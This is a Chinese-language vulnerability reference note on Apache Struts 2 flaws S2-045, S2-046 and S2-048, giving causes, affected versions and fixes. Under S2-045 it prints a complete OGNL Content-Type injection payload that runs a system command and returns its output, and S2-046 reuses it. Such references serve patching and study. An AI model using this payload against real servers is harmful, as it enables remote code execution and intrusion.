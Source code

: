 ## S2-045(CVE-2017-5638)

* 介绍

    Apache官方发布Struts 2 紧急漏洞公告（S2-046），CVE编号CVE-2017-5638。公告中披露 ，当基于Jakarta插件上传文件时，可导致远程代码执行。例如在系统中获得管理员权限，执行添加用户。可任意查看、修改或删除文件。造成机密数据泄露，重要信息遭到篡改等重大危害。

    在使用基于Jakarta插件的文件上传功能时，有可能存在远程命令执行，导致系统被黑客入侵。恶意用户可在上传文件时通过修改HTTP请求头中的 Content-Type值来触发该漏洞，进而执行系统命令。

* 影响版本
    
    Struts 2.3.5 - Struts 2.3.31，Struts 2.5 - Struts 2.5.10

* POC

    `%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}`

* 修复

    Apache Struts 版本 2.3.32 或 2.5.1.0.1

    实现 Servlet 过滤器，该过滤器将验证 Content-Type 并丢弃不匹配的可疑值的请求  multipart/form-data。


## S2-046

* 原理

    使用恶意的 Content-Disposition 值或者使用不合适的 Content-Length 头就可能导致远程命令执行。该漏洞与 S2-045(CVE-2017-5638)相似，漏洞触发点一样，但利用方式不同。触发漏洞需要满足的条件：

    1.Content-Type 中包含 multipart/form-data

    2.Content-Disposition 中 filename 包含 OGNL语句

    3.文件大小大于 2G（默认情况下），通过设置 Content-Length 就可以了；或者filename 中有空字节\x00

* 影响版本

    Struts 2.3.5-Struts 2.3.31，Struts 2.5- Struts 2.5.10

* POC

    45通用

## S2-048(CVE-2017-9791)

* 原理

    这个漏洞主要问题出在struts2-struts1-plugin这个插件包上。这个库的主要作用就是将struts1的action封装成struts2的action以便它能在strut2上运行使用。 而由于struts2-struts1-plugin 包中的 “Struts1Action.java” 中的 execute 函数可以调用 getText() 函数，这个函数刚好又能执行OGNL表达式，同时这个 getText() 的 参数输入点，又可以被用户直接进行控制，如果这个点被恶意攻击者所控制，就可以构造恶意执行代码，从而实现一个RCE攻击。
